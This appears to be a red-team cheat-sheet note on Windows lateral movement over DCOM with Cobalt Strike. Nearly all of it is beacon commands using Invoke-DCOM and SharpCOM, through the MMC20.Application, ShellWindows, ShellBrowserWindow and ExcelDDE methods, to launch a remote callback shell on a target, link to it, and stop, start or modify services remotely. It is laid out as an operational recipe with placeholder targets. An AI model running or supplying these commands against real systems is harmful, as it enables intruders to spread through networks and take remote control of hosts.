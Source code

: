 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - Spawn Callback Shell

### 1.1 - Invoke-DCOM

Spawn the callback shell.

```
beacon> powershell-import Invoke-DCOM.ps1

beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <MMC20.Application | ShellWindows | ShellBrowserWindow | ExcelDDE> -Command C:\path\to\remote\shell.exe

beacon> link <IP>
```

Modify the service.

```
beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <ServiceCheck | MinimizeAll | ServiceStop | ServiceStart> "<service_name>"
```

### 1.2 - SharpCOM

```
beacon> execute-assembly /path/to/local/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\remote\shell.exe"
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Scripts]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Binaries]]